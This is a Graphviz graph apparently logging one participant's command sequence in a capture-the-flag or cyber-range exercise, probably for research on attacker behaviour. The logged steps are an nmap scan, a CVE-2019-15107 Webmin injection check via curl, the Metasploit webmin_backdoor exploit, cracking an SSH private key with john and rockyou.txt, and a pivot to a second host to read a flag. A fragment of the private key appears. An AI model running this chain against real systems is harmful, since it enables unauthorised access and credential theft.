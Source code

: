 // creating graph for user: 71
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	3 [label="msfconsole M2 "]
	4 [label="msfconsole M2 "]
	7 [label="msfconsole M2 "]
	8 [label="db_nmap 172.18.1.5 M0 "]
	11 [label="show exploits M8 "]
	13 [label="ls A10 "]
	14 [label="chmod A15 "]
	15 [label="chmod +x 47293.sh A15 "]
	23 [label="cat 47293.sh A1 A9 A11 A12 A17 "]
	31 [label="curl -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id A1 A4 A9 A11 A12 A17 "]
	32 [label="if [ $? -eq 0 ]; then echo '033[0;31mVULNERABLE!033[0m'; else echo '033[0;32mOK! (target is not vulnerable)033[0m'; fi A10 "]
	33 [label="ls A10 "]
	34 [label="cat CVE-2019-15107.sh A1 A9 A11 A12 A17 "]
	35 [label="cat CVE-2019-15107.sh http://172.18.1.5:10000 A1 A9 A11 A12 A17 "]
	37 [label="msfconsole M2 "]
	40 [label="msfconsole M2 "]
	41 [label="show exploit M8 "]
	42 [label="search CVE-2019-15107 A3 "]
	43 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	44 [label="check A7 "]
	45 [label="set RHOSTS https://localhost:10000 M6 "]
	46 [label="set RHOST https://localhost:10000 A6 "]
	47 [label="show options M5 "]
	48 [label="set RHOST 172.18.1.5 A6 "]
	49 [label="show options M5 "]
	50 [label="check A7 "]
	51 [label="exploit M8 "]
	52 [label="check A7 "]
	53 [label="exploit M8 "]
	54 [label="set LHOST 0.0.0.0 M6 "]
	55 [label="exploit M8 "]
	56 [label="show A5 "]
	57 [label="show options M5 "]
	58 [label="exploit M8 "]
	59 [label="set LHOST 10.1.135.83 M6 "]
	60 [label="exploit M8 "]
	61 [label="msfconsole M2 "]
	62 [label="check A7 "]
	64 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	65 [label="set RHOST 172.18.1.5 A6 "]
	66 [label="set LHOST 10.1.135.83 M6 "]
	67 [label="check A7 "]
	68 [label="ssh 172.18.1.5 A16 "]
	69 [label="ssh 172.18.1.5:39680 A16 "]
	70 [label="ssh localhost:4444 A16 "]
	71 [label="ssh 127.0.0.1:4444 A16 "]
	72 [label="ssh 127.0.0.1 -p 4444 A16 "]
	73 [label="msfconsole M2 "]
	74 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	75 [label="set RHOST 172.18.1.5 A6 "]
	76 [label="set LHOST 10.1.135.83 M6 "]
	77 [label="check A7 "]
	78 [label="exploit M8 "]
	79 [label="ssh 172.18.1.5 A16 "]
	80 [label="ssh kocm@172.18.1.5 A16 "]
	81 [label="ssh 172.18.1.5 A16 "]
	83 [label="john key A14 "]
	84 [label="john .-----BEGIN RSA PRIVATE KEY----- A14 "]
	90 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	136 [label="john --wordlist=-----BEGIN RSA PRIVATE KEY----- M14 "]
	142 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	189 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key M14 "]
	190 [label="/usr/share/john/ssh2john.py key A14 A16 "]
	191 [label="/usr/share/john/ssh2john.py key > key2 A14 A16 "]
	192 [label="john key@ A14 "]
	193 [label="john key2 A14 "]
	194 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key@ M14 "]
	195 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2 M14 "]
	196 [label="cp key ./.ssh/id_rsa A16 "]
	198 [label="cd .ssh A16 "]
	199 [label="cat id_rsa M12 "]
	200 [label="ssh 10.1.17.4 A16 "]
	201 [label="ssh eve@sh 10.1.17.4 M16 "]
	202 [label="ssh eve@10.1.17.4 M16 "]
	203 [label="ls A10 "]
	206 [label="ls A10 "]
	207 [label="cat key A1 A9 A11 A12 A17 "]
	209 [label="ssh eve@10.1.17.4 M16 "]
	210 [label="ls A10 "]
	212 [label="ls A10 "]
	213 [label="cat flag.txt M17 "]
	0 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 23 [constraint=false]
	23 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 37 [constraint=false]
	37 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 90 [constraint=false]
	90 -> 136 [constraint=false]
	136 -> 142 [constraint=false]
	142 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	rankdir=LR
}
